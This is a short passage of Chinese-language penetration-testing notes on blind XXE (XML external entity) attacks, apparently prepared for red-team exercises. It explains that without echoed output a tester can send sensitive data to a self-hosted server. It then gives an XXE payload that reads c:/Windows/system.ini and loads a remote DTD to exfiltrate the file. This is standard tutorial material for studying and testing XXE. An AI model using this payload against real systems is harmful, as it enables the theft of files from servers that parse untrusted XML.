 ```
假设将回显注释掉，那么就算有xxe漏洞也无法回显，那么就无法判断是否有漏洞。
```

![image-20241201235337600](HVV护网专题/image-20241201235337600.png)	

```
所以可以利用xxe漏洞把敏感数据发送到自己搭建好的网站上。通过自己的网站把内容导出来。
```

```
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY  % file SYSTEM "file:///c:/Windows/system.ini">
<!ENTITY  % remote SYSTEM "http://127.0.0.1/fuzhu/remote.dtd">
%remote;
%all;
]>
```
